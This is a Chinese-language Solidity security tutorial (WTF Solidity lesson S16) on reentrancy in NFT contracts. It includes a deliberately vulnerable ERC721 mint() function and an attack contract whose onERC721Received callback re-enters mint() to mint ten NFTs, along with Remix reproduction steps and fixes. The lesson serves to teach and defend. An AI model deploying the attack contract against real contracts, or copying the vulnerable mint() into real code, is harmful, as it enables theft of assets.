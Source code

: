 ```yaml
---
title: S16. NFT重入攻击
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity 合约安全: S16. NFT重入攻击

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造10个NFT。

## NFT重入风险

我们在[S01 重入攻击](https://github.com/AmazingAng/WTFSolidity/blob/main/S01_ReentrancyAttack/readme.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（[ERC721](https://github.com/AmazingAng/WTFSolidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTFSolidity/blob/main/40_ERC1155/readme.md)）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 `ERC721` 和 `ERC1155` 有潜在重入风险的函数：

![](./img/S16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造10个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`10`个NFT，攻击成功。

![](./img/S16-2.png)

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

## 总结

这一讲，我们介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了10个NFT。目前主要有两种预防重入攻击的办法：检查-影响-交互模式（checks-effect-interaction）和重入锁。